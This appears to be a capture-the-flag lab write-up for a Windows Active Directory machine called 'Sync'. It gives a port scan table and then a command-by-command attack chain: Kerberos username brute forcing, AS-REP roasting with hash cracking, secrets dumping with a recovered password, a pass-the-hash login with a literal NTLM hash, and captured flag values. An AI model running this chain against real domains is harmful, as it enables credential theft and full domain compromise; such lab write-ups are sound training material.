

# Sync

**IP Address:** 172.31.3.6

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 135/tcp | open | msrpc | Microsoft Windows RPC  |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn  |
| 3268/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 3269/tcp | open | tcpwrapped |   |
| 3389/tcp | open | ms-wbt-server | Microsoft Terminal Services  |
| 389/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 445/tcp | open | microsoft-ds |   |
| 464/tcp | open | kpasswd5 |   |
| 47001/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 49664/tcp | open | msrpc | Microsoft Windows RPC  |
| 49665/tcp | open | msrpc | Microsoft Windows RPC  |
| 49666/tcp | open | msrpc | Microsoft Windows RPC  |
| 49668/tcp | open | msrpc | Microsoft Windows RPC  |
| 49669/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 49670/tcp | open | msrpc | Microsoft Windows RPC  |
| 49673/tcp | open | msrpc | Microsoft Windows RPC  |
| 49674/tcp | open | msrpc | Microsoft Windows RPC  |
| 49690/tcp | open | msrpc | Microsoft Windows RPC  |
| 49698/tcp | open | msrpc | Microsoft Windows RPC  |
| 49790/tcp | open | msrpc | Microsoft Windows RPC  |
| 53/tcp | open | domain | Simple DNS Plus  |
| 593/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 5985/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 636/tcp | open | tcpwrapped |   |
| 88/tcp | open | kerberos-sec | Microsoft Windows Kerberos  |
| 9389/tcp | open | mc-nmf | .NET Message Framing  |
| 123/udp | open | ntp | NTP v3 |
| 137/udp | open | netbios-ns | Microsoft Windows netbios-ns  |
| 49152/udp | open | domain |   |
| 53/udp | open | domain |   |

1. Attempt to brute force some usernames. 

Commands
```
kerbrute -users /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -domain sync.csl -dc-ip $ip
```


2. Put found users into users.txt and attempt to get some hashes and crack them. 

Commands
```
GetNPUsers.py sync.csl/ -usersfile users.txt -format john -outputfile hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```


3. Dump secrets using the found credentials

Commands
```
/opt/impacket/examples/secretsdump.py sync.csl/manager@$ip
!!MILKSHAKE!! 
```



4. Login to the Administrator account using the hash. 

Commands
```
evil-winrm -i $ip -u administrator -H a72e3fae34d37ec6f82d7f2c3a72bc04
whoami
type C:\Users\sysadmin\Desktop\access.txt
type ..\Desktop\system.txt
```


## Loot
```
access.txt
8b394ddda3b30e84bc7905188f32607c
system.txt
8d73c1b5941f2dc98d596abb0eb1869e
```